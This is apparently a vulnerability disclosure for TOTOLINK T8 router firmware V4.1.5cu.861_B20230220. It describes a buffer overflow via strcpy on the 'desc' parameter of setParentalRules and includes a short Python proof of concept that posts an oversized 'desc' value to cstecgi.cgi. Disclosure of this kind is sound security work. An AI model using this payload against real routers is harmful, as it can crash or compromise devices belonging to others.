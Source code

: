 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/222/ids/36.html

## Affected version

T8_Firmware V4.1.5cu.861_B20230220

## Vulnerability details

In the T8_Firmware V4.1.5cu.861_B20230220 firmware has a buffer overflow vulnerability in the `setParentalRules` function. The `v6` variable receives the `desc` parameter from a POST request. However, since the user can control the input of `desc`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240902112714559](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902112714559.png)

![image-20240902112800097](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902112800097.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setParentalRules",
"addEffect":"1",
"mac":"111",
"desc":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721012919451](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721012919451.png)
